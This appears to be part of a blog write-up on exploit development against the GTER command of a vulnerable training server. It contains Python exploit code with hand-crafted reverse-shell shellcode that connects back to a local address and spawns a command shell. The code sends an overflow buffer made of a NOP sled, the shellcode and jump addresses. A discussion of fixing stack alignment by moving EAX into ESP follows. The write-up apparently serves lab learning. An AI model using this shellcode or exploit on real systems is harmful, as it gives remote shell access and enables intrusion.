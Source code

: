 ```python
revshell  = "\x31\xc0\x50\x50\x50\x31\xdb\xb3\x06\x53\x40\x50\x40\x50\xbb\x30\x97\x4e\x75\x31\xc0\xff\xd3" 
revshell += "\x96\x68\xc0\xa8\x2f\x80\x66\x68\x11\x5c\x31\xdb\x80\xc3\x02\x66\x53\x89\xe2\x6a\x10\x52\x56\xbb\xe0" 
revshell += "\x5e\x4e\x75\xff\xd3\xba\x63\x63\x6d\x64\xc1\xea\x08\x52\x89\xe1\x31\xd2\x83\xec\x10\x89\xe3\x56\x56" 
revshell += "\x56\x52\x52\x31\xc0\x40\xc1\xc0\x08\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x31\xc0\x04\x2c\x50"
revshell += "\x89\xe0\x53\x50\x52\x52\x52\x31\xc0\x40\x50\x52\x52\x51\x52\xbb\x30\x66\xf3\x74\xff\xd3"


crash = "\x90" * 29 + revshell + "\x90" * 2 + jmp_esp + short_jmp + "\x43" * 500

buffer = "GTER "
buffer += crash
buffer += "\r\n"

s.connect((host, port))
s.send(buffer)
s.recv(1024)
s.close()
print len(revshell)
```

### Not so fast....

However if we run this no shell comes. If we take a look in the debugger we can see it's a stack alignment issue.

![stack](/img/gter-stack.png)

ESP is actually pointing to the location of our short negative JMP. 

![jmp](/img/gter-jmp.png)

Which means if we start pushing instructions to the stack we will start overwriting our shellcode above.

To work around this take a look at the EAX register, it's value currently points to an address much lower than ESP and actually sits well above our shellcode. In fact it points to the very beginning of the GTER request. So what we can do is PUSH the value of EAX to the stack (yes we will overwrite our negative JMP but it won't matter at this point since we've already taken the JMP!) and then we'll POP that value directly into ESP.

Add the instructions in at the beginning of where our shellcode would start and let's test.

![pushpop](/img/gter-pushpop.png)

Let's step through these instructions and inspect our registers and stack again.

![newregs](/img/gter-reg.png)
